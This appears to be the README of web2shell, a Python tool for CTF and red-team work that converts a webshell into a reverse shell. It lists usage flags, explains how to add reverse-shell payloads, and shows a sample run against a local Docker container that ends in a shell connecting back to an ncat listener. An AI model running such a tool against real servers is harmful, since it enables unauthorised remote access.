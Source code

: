 # web2shell

A Python program used to automate converting webshells into reverse shells. If you regularly do CTF, HTB, or red teaming you've probably spent a good chunk of time testing payloads to convert a webshell into a reverse shell. This tool aims to simplify this process.

Credit for the reverse shells goes to [PayloadAllTheThings.](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Usage

```
usage: web2shell.py [-h] --url URL [--interface INTERFACE] [--force FORCE] [--ip IP] [--port PORT] [--nc NC]

options:
  -h, --help            show this help message and exit
  --url URL             webshell URL, replace the provided command with "SHELL". ex: https://example.com/shell.php?cmd=SHELL
  --interface INTERFACE
                        the interface to use when listening for a remote shell. Default is localhost.
  --force FORCE         force command execution even if initial check is invalid, must be true or false
  --ip IP               IP address of your own listener (skips listener setup)
  --port PORT           port of your own listener (skips listener setup)
  --nc NC               path to local nc binary
```

The only **required** flag is the `url.`

Please note: this program currently is only intended to be used on and against Linux machines.

## Requirements

Install the required python modules with pip (`pip3 install -r requirements.txt`.) You will need a local copy of `nc`. The program will attempt to find it automatically. If it can't, please specify the path with the `--nc` flag.

## Adding New Payloads

The included payloads have all been tested on a simple webshell and work. If you'd like to add more, please feel free.

- Edit the `data/payloads.py` file.
- Add a new object to the `payloads` dict. The `key` should be the name of the bin, and the value should be a `list` object of payloads.
- Replace all instances of the reverse `IP` with `IPHERE`, the port with `PORTHERE`, and the binary name with `PATHHERE`.

## Example

Example execution on local Docker image (see `demo/README.md`)

```
[evan@ejedev web2shell]$ python3 web2shell.py  --url http://127.0.0.1:8080/cmd.php?cmd=SHELL --interface docker0

               o                  o           o  o
               O     .oOOo.       O           O  O
               O          O       o           o  o
               o          o       O           O  O
'o     O .oOo. OoOo.     O' .oOo  OoOo. .oOo. o  o
 O  o  o OooO' O   o    O   `Ooo. o   o OooO' O  O
 o  O  O O     o   O  .O        O o   O O     o  o
 `Oo'oO' `OoO' `OoO' oOoOoO `OoO' O   o `OoO' Oo Oo
---------------------------------------------------
                      @ejedev

Verifying commands can be executed...
Available interfaces...
[-] lo
[-] enp4s0
[-] docker0
[-] br-7436527ee366
[-] br-aa3534e13396
[-] br-c7551daa06d2
[-] veth87ee241
docker0 selected. Address to use is 172.17.0.1
Testing ports...
[-] 1025 available!
Finding local nc binary...
nc target at /usr/bin/nc
Final connection string will be 172.17.0.1:1025...
Finding bins...
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1025
Ncat: Listening on 0.0.0.0:1025
[-] perl found at /usr/bin/perl
[-] perl found at /usr/bin/perl5.32-x86_64-linux-gnu
[-] php found at /usr/local/bin/php
[-] python found at /usr/bin/python3.9
Executing reverse shell...
Bins to test: 4
[!] Attempting perl payloads for path /usr/bin/perl
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:54256.
$
```
